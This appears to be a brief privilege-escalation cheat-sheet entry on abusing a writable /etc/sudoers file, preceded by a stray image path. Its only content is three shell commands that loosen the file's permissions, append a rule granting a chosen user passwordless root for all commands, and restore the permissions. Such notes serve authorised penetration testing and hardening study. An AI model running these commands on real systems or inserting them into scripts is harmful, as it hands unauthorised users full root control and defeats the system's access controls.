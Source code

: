 ```yaml
---
title: "sudoers"
date: 2024-7-3
tags: ["sudoers", "sudo", "privesc", "/etc/sudoers"]
---
```


---
#### Abuse #1: Writable /etc/sudoers

<div>

```bash
chmod 600 /etc/sudoers
```

```bash
echo '<USER>   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

```bash
chmod 440 /etc/sudoers
```

</div>

<br>
